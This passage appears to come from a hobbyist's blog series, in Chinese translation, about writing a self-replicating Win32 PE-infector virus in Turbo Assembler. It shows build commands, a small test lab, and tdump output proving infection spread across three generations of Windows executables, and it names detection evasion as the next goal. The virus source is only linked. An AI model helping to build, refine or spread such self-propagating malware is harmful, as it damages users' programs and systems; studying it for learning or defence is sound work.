对于每个由`pijector`使用的 Win32 APIs，`apisafejector`代码需要:

1.  一条`DESC_RUNTIME_API`线。这些见 [`apisafejector.inc`](https://github.com/cpu/vexation/blob/master/apisafejector/apisafejector.inc) 。
2.  一条`REQUIRED_API`线。这些见`apisafejector.asm` 底部[。](https://github.com/cpu/vexation/blob/8c24ef87338b5b2558def7866cebc37d37a4e4ec/apisafejector/apisafejector.asm#L583-L603)
3.  一条`LINK_API`线。参见`apisafejector.asm` 中的`@@linkapis`标签[。](https://github.com/cpu/vexation/blob/8c24ef87338b5b2558def7866cebc37d37a4e4ec/apisafejector/apisafejector.asm#L165-L181)

这三部分就绪后，我更新了现有的每一条`call <win32 api function>`指令，改用`CALL_RUNTIME_API <win32 api function>, <args>`。

# 终于出现病毒了！

终于到了看病毒代码能否超越第一代自我传播的时候了。为了测试更新后的`apisafejector`病毒，我通过使用`Makefile`的运行目标感染了`calc.exe`病毒

```
make clean
make
make run 
```

[](https://res.cloudinary.com/practicaldev/image/fetch/s--7Pf_AZwj--/c_limit%2Cf_auto%2Cfl_progressive%2Cq_auto%2Cw_880/https://thepracticaldev.s3.amazonaws.com/i/t977rjkc730f05qh6ca8.png)

这在`td32`中启动了`apisafejector.exe`(记住，这是以这种方式运行第 0 代可执行文件的必要手段，否则它将崩溃写入一个只读部分)。点击`F9`让它完成感染目录中唯一可以打开写入的其他`.exe`，`calc.exe`的工作。完成后,`apisafejector.exe`进程正常终止。

[](https://res.cloudinary.com/practicaldev/image/fetch/s--vl-2RJIx--/c_limit%2Cf_auto%2Cfl_progressive%2Cq_auto%2Cw_880/https://thepracticaldev.s3.amazonaws.com/i/eeg7nexfiifze5xxrjhc.png)

我通过检查`tdump calc.exe`的输出来验证`calc.exe`是否被感染，以查看入口点是否被更新，以及是否添加了新的`.ireloc`部分。

在`tdump calc.exe`显示之前:

```
Entry RVA                0000534E

Object table:
#   Name      VirtSize    RVA     PhysSize  Phys off  Flags   
--  --------  --------  --------  --------  --------  --------
01  .text     000096B0  00001000  00009800  00000400  60000020 [CER]
02  .bss      0000094C  0000B000  00000000  00000000  C0000080 [URW]
03  .data     00001700  0000C000  00001800  00009C00  C0000040 [IRW]
04  .idata    00000B64  0000E000  00000C00  0000B400  40000040 [IR]
05  .rsrc     000015CC  0000F000  00001600  0000C000  40000040 [IR]
06  .reloc    00001040  00011000  00001200  0000D600  42000040 [IDR] 
```

之后:

```
Entry RVA                00013000

Object table:
#   Name      VirtSize    RVA     PhysSize  Phys off  Flags
--  --------  --------  --------  --------  --------  --------
01  .text     000096B0  00001000  00009800  00000400  60000020 [CER]
02  .bss      0000094C  0000B000  00000000  00000000  C0000080 [URW]
03  .data     00001700  0000C000  00001800  00009C00  C0000040 [IRW]
04  .idata    00000B64  0000E000  00000C00  0000B400  40000040 [IR]
05  .rsrc     000015CC  0000F000  00001600  0000C000  40000040 [IR]
06  .reloc    00001040  00011000  00001200  0000D600  42000040 [IDR]
07  .ireloc   00001000  00013000  00000A00  0000E800  E0000020 [CERW] 
```

由于病毒只感染同一个目录中的`*.exe`文件，所以很容易做一个小的测试实验室，看看第一代`calc.exe`感染是否有效。我简单地创建了一个新目录，复制了被感染的`calc.exe`，然后从 Windows 目录复制了一个干净的`cdplayer.exe`。

```
mkdir test
cd test
copy ..\calc.exe
copy c:\windows\cdplayer.exe 
```

在这个目录中运行`calc.exe`似乎什么也做不了:因为病毒代码没有调用原始的`calc.exe`入口点，程序在感染`cdplayer.exe`后立即退出，没有显示任何实际的计算器 GUI。

检查来自`cdplayer.exe`的`tdump`输出显示，虽然看起来`calc.exe`什么也没做就退出了，但是感染确实起作用了！改变了`cdplayer.exe`的入口点，并增加了新的`.ireloc`部分。第一代`calc.exe`在`cdplayer.exe`成功制造了第二代感染！

运行前被感染的`calc.exe` `tdump cdplayer.exe`显示:

```
Entry RVA                0000DE00

Object table:
#   Name      VirtSize    RVA     PhysSize  Phys off  Flags
--  --------  --------  --------  --------  --------  --------
01  .text     0000CFC0  00001000  0000D000  00000400  60000020 [CER]
02  .sdata    00000004  0000E000  00000200  0000D400  D0000040 [ISRW]
03  .data     00000C10  0000F000  00000E00  0000D600  C0000040 [IRW]
04  .idata    0000135C  00010000  00001400  0000E400  40000040 [IR]
05  .CRT      00000014  00012000  00000200  0000F800  C0000040 [IRW]
06  .rsrc     00004618  00013000  00004800  0000FA00  40000040 [IR]
07  .reloc    000014F4  00018000  00001600  00014200  42000040 [IDR] 
```

之后便显示:

```
Entry RVA                0001A000

Object table:
#   Name      VirtSize    RVA     PhysSize  Phys off  Flags
--  --------  --------  --------  --------  --------  --------
01  .text     0000CFC0  00001000  0000D000  00000400  60000020 [CER]
02  .sdata    00000004  0000E000  00000200  0000D400  D0000040 [ISRW]
03  .data     00000C10  0000F000  00000E00  0000D600  C0000040 [IRW]
04  .idata    0000135C  00010000  00001400  0000E400  40000040 [IR]
05  .CRT      00000014  00012000  00000200  0000F800  C0000040 [IRW]
06  .rsrc     00004618  00013000  00004800  0000FA00  40000040 [IR]
07  .reloc    000014F4  00018000  00001600  00014200  42000040 [IDR]
08  .ireloc   00001000  0001A000  00000A00  00015800  E0000020 [CERW] 
```

为了确保这不是侥幸，我试着制作了一个测试目录，看看第二代感染在`cdplayer.exe`中是否会传播。

```
mkdir test2
cd test2
copy ..\cdplayer.exe
copy c:\windows\pbrush.exe 
```

运行被感染的`cdplayer.exe`给出了与`calc.exe`相同的结果。程序立即退出，`pbrush.exe`程序的`tdump`输出显示了感染的迹象。第二代在`pbrush.exe`成功繁殖到第三代！

运行`cdplayer.exe`前`tdump pbrush.exe`显示:

```
Entry RVA                0000100C

Object table:
#   Name      VirtSize    RVA     PhysSize  Phys off  Flags
--  --------  --------  --------  --------  --------  --------
01  .text     000000AB  00001000  00000200  00000400  60000020 [CER]
02  .idata    000000E4  00002000  00000200  00000600  40000040 [IR]
03  .rsrc     0000071C  00003000  00000800  00000800  40000040 [IR]
04  .reloc    00000034  00004000  00000200  00001000  42000040 [IDR] 
```

之后便显示:

```
Entry RVA                00005000

Object table:
#   Name      VirtSize    RVA     PhysSize  Phys off  Flags
--  --------  --------  --------  --------  --------  --------
01  .text     000000AB  00001000  00000200  00000400  60000020 [CER]
02  .idata    000000E4  00002000  00000200  00000600  40000040 [IR]
03  .rsrc     0000071C  00003000  00000800  00000800  40000040 [IR]
04  .reloc    00000034  00004000  00000200  00001000  42000040 [IDR]
05  .ireloc   00001000  00005000  00000A00  00001200  E0000020 [CERW] 
```

我不得不承认，我特别喜欢一个接一个地破坏我最喜欢的 Windows 工具。

# 结论

我从零开始开发了一个 Borland Turbo Assembler PE infector 病毒，它实际上是自我繁殖的。在完成核心病毒的粗略原型之前，剩下的最后一个挑战是找到一种方法来调用被感染程序的原始代码。如果所有被感染的程序看起来都被破坏了，那么病毒肯定不会长时间逃避检测。

我希望介绍我的进展和一般的分段开发方法是有趣的！我只是触及了可能的表面，并实现了最基本的技术来继续前进。我很兴奋能在目前建立的骨架上逐步完善。如果这个项目没有为我强调在理论上知道如何做某事和在实践中实际做某事之间的区别:-)的话

总的来说，我似乎一个月能写一篇文章，所以我希望在 5 月份的下一期《烦恼》中见到你。一如既往，我希望听到关于这个项目的反馈。请随时在推特( [@cpu](https://twitter.com/cpu) )或电子邮件(【daniel@binaryparadox.net】T2)上给我留言。*